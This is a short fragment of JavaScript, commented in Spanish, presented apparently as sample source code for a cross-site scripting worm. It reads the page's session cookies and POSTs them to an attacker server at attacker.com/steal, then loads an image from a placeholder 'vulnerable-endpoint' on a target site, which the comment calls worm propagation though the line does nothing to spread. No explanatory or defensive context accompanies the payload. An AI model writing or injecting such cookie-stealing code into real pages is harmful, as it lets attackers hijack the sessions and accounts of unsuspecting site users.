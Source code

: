 ```// Captura de cookies de sesión y envío al servidor del atacante
var xhr = new XMLHttpRequest();
xhr.open("POST", "https://attacker.com/steal", true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("cookies=" + document.cookie);

// Propagación del gusano a otros usuarios
var img = new Image();
img.src = "https://target-website.com/vulnerable-endpoint";
document.body.appendChild(img);
```
